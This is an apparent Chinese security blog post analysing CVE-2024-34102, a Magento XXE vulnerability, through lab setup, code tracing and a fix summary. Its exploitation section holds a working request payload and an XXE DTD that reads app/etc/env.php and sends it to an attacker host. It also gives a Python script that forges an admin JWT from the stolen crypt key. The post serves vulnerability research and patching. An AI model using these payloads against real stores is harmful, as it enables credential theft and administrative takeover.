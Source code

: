 title: CVE-2024-34102 Magento XXE 漏洞分析
author: Bmth
tags: []
top_img: 'https://img-blog.csdnimg.cn/direct/92d3c4b09c794a0f93ba9456369929b2.png'
cover: 'https://img-blog.csdnimg.cn/direct/92d3c4b09c794a0f93ba9456369929b2.png'
categories:
  - 漏洞分析
date: 2024-06-28 20:42:00
---
![](https://img-blog.csdnimg.cn/direct/92d3c4b09c794a0f93ba9456369929b2.png)

最近看到一个XXE漏洞，CVSS给了9.8的高分，这就不得不分析一下了：[https://github.com/advisories/GHSA-m8cj-3v68-3cxj](https://github.com/advisories/GHSA-m8cj-3v68-3cxj)

影响版本：
```
= 2.4.4
>= 2.4.6-p1, < 2.4.6-p6
>= 2.4.5-p1, < 2.4.5-p8
< 2.4.4-p9
= 2.4.5
= 2.4.6
= 2.4.7
```
## 环境搭建
漏洞复现啥的都还好说，环境是真麻烦

推荐使用：[https://github.com/markshust/docker-magento/](https://github.com/markshust/docker-magento/)
```bash
# Create your project directory then go into it:
mkdir -p ~/Sites/magento
cd $_

# Run this automated one-liner from the directory you want to install your project.
curl -s https://raw.githubusercontent.com/markshust/docker-magento/master/lib/onelinesetup | bash -s -- magento.test 2.4.7 community
```
按照教程来，一步到胃
![](https://img-blog.csdnimg.cn/direct/3eee9b355b464007b53e83c952c38f21.png)

需要改一下hosts

切换到 magento-php 容器，禁用双重认证
```bash
bin/magento module:disable Magento_AdminAdobeImsTwoFactorAuth
bin/magento module:disable Magento_TwoFactorAuth
```
后台路径：[https://magento.test/admin](https://magento.test/admin)
默认管理员账号密码：john.smith/password123

## 漏洞分析
网上已经写的很详细了：[https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102](https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102)

看到`lib/internal/Magento/Framework/Webapi/ServiceInputProcessor.php#_createFromArray`
![](https://img-blog.csdnimg.cn/direct/4150b783e59346ac8d00d0a20eebf204.png)

关键的地方就是通过 getConstructorData 方法获取构造函数参数，并使用这些参数创建一个对象，跟进 getConstructorData 方法
![](https://img-blog.csdnimg.cn/direct/e35d550de199474fb34367b1b64d5313.png)

获取该类的构造函数，调用`$constructor->getParameters()`获取构造函数的参数列表，并遍历参数列表检查`$data`中是否有对应的键，如果存在，则会调用 convertValue 方法，参数为键对应的值
```php
$res[$parameter->getName()] = $this->convertValue($data[$parameter->getName()], $parameterType);
```
![](https://img-blog.csdnimg.cn/direct/44df014248e54d1dade01aa7eaf818ef.png)

进行一些判断，然后调用 processComplexTypes 方法
![](https://img-blog.csdnimg.cn/direct/e24bffa93c8d42adaa7cbac06ce3d507.png)

看到又调用到`_createFromArray`方法，即会递归调用构造方法

打过CTF的都知道，php存在一些原生类的利用

SimpleXMLElement 触发XXE
```php
new SimpleXMLElement("http://6wovn93g.dnslog.pw/evil.xml",2,true);
```
SQLite3 创建空白文件
```php
new SQLite3('/tmp/mysqlitedb.db');
```

最后就是找链了，没啥好说的
## 漏洞利用
POC已经公开了：[https://raw.githubusercontent.com/karkis3c/cves/main/CVE-2024-34102/CVE-2024-34102.yaml](https://raw.githubusercontent.com/karkis3c/cves/main/CVE-2024-34102/CVE-2024-34102.yaml)
```
/rest/V1/guest-carts/1/estimate-shipping-methods

{"address":{"totalsCollector":{"collectorList":{"totalCollector":{"sourceData":{"data":"http://192.168.111.1:8000/file.xml","dataIsURL":true,"options":12345678}}}}}}
```
根据文章，尝试读取env.php
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../app/etc/env.php">
  <!ENTITY % dtd SYSTEM "http://192.168.111.1:8888/data.dtd"> %dtd;
]>
<data>&send;</data>
```
使用ftp回显：[https://github.com/LandGrey/xxe-ftp-server](https://github.com/LandGrey/xxe-ftp-server)
![](https://img-blog.csdnimg.cn/direct/81c357290d05428bab92e5d281473359.png)

base64解码得到key
![](https://img-blog.csdnimg.cn/direct/3150f43f055c46df808439ce7645a783.png)

得到：`'crypt' => [ 'key' => 'base64A9myPvYovOhTDAspj4Qmv/fba5LXK+vvycXqwF7iKxU=' ]`

### JWT Attack
REST API：[https://developer.adobe.com/commerce/webapi/rest/](https://developer.adobe.com/commerce/webapi/rest/)

看到`app/code/Magento/Integration/etc/webapi.xml`
![](https://img-blog.csdnimg.cn/direct/3cc5d5951ba14cc2b30753288d957c56.png)

我们可以通过`/rest/V1/integration/admin/token`接口获取JWT令牌
![](https://img-blog.csdnimg.cn/direct/9306067a5701418fadfe9f6e145293e9.png)

对应的方法在`app/code/Magento/Integration/Model/AdminTokenService.php#createAdminAccessToken`
![](https://img-blog.csdnimg.cn/direct/b61a34522fac4c9ea068a959b898c399.png)

走到了`app/code/Magento/JwtUserToken/Model/Issuer.php#create`
![](https://img-blog.csdnimg.cn/direct/fbd3b99a58e24baeb421ad56ed36bb45.png)

![](https://img-blog.csdnimg.cn/direct/6f12cb79039c4c77be67d2d5eb19421c.png)

很明显就是一些参数的获取，其中utypid为2时，为admin类型用户，最后会调用`$this->jwtManager->create`创建JWT令牌

这里最重要的就是`$settings`，决定了加密算法、密钥等设置
```php
$settings = $this->settingsProvider->prepareSettingsFor($userContext);
```
`app/code/Magento/JwtUserToken/Model/ConfigurableJwtSettingsProvider.php#prepareAllAccepted`
![](https://img-blog.csdnimg.cn/direct/3d0c3e5db03c4889a393ffc2f6390513.png)

getJwtAlgorithm方法获取当前算法`$algorithm`，然后判断是走JWS还是JWE

看到`app/code/Magento/JwtUserToken/Model/Config/ConfigReader.php#getJwtAlgorithm`
![](https://img-blog.csdnimg.cn/direct/62c3a5d355a5442abb334f8f9b5a299d.png)

从`app/code/Magento/JwtUserToken/etc/config.xml`中可以获取到该值
![](https://img-blog.csdnimg.cn/direct/9dd4633ab0414dae997113b517a328e5.png)

默认签名算法为HS256，回到 prepareAllAccepted 方法，最终会执行到`app/code/Magento/JwtUserToken/Model/SecretBasedJwksFactory.php#createFor`
![](https://img-blog.csdnimg.cn/direct/86e8f82a39244e8a8fd1c3d8426c187c.png)

显然`$this->keys`就是密钥，该值会从配置`crypt/key`中获取，然后前后填充`&`字符直到2048个字符
```php
$this->keys = preg_split('/\s+/s', trim((string)$deploymentConfig->get('crypt/key')));
//Making sure keys are large enough.
foreach ($this->keys as &$key) {
    $key = str_pad($key, 2048, '&', STR_PAD_BOTH);
}
```
![](https://img-blog.csdnimg.cn/direct/ce75bdf2a7b340eea9df8ff3534340dd.png)

我们简单执行一下就可以拿到该值了

exp：
```python
import jwt
import datetime

iat = datetime.datetime.now()
exp = iat + datetime.timedelta(hours=1)

payload = {
  "uid": 1,
  "utypid": 2,
  "iat": int(iat.timestamp()),
  "exp": int(exp.timestamp())
}

headers = {
  "kid": "1",
  "alg": "HS256"
}

encoded_jwt = jwt.encode(payload, '&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&base64A9myPvYovOhTDAspj4Qmv/fba5LXK+vvycXqwF7iKxU=&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&', algorithm='HS256',headers=headers)
print(encoded_jwt)
```

测试的版本为2.4.7，其他版本可能稍作不同


### CVE-2024-2961
[https://www.ambionics.io/blog/iconv-cve-2024-2961-p1](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)
![](https://img-blog.csdnimg.cn/direct/1f797059630841959040d883e1e6c141.png)

文章介绍了几种利用姿势，其中就包括XXE

利用脚本：[https://github.com/ambionics/cnext-exploits/](https://github.com/ambionics/cnext-exploits/)

## 漏洞修复
![](https://img-blog.csdnimg.cn/direct/719e54d3c0404f8d9afe019e3a1c0c06.png)

检查对象是否继承或者实现SimpleXMLElement、DOMElement类。如果为true则直接抛出异常

参考：
[https://github.com/spacewasp/public_docs/blob/main/CVE-2024-34102.md](https://github.com/spacewasp/public_docs/blob/main/CVE-2024-34102.md)